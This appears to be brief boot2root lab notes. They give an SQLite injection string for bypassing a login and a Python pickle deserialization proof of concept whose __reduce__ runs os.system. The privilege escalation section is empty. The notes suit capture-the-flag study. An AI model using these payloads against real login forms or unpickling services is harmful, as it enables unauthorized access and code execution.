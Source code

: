 # Boot2root

## SQLite Injection: Login Bypass

Use "LIKE" to bypass

```text
"oR"2"LiKE"2
```

[Reference](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

## Pickle Insecure Deserialization Priv Esc

```py
import pickle
import os


class RCE:
    def __reduce__(self):
        cmd = ('pwd')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open("pickled_data.pickle", "wb") as f:
        f.write(pickled)
```

[Reference](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

## Privilege Escalation

